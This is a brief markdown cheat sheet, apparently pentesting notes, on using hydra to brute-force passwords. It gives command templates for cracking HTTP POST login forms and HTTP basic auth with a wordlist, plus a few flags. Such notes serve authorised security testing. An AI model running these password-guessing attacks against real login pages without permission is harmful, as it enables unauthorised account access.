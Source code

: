 # hydra

http POST-form cracking \(login forms\):

~~~
hydra -l USERNAME -P /path/to/wordlist http-post-form “/login.php:username=^USER^&password=^PASS^:Login failed text”
~~~

http basic auth:

~~~
hydra -l USERNAME -P /path/to/wordlist -f 127.0.0.1 http-get /pathtoauth
~~~

useful flags:
~~~
-f = stop cracking after password is found
-I = skip restoring from previous session
-R = restore from previous session
~~~






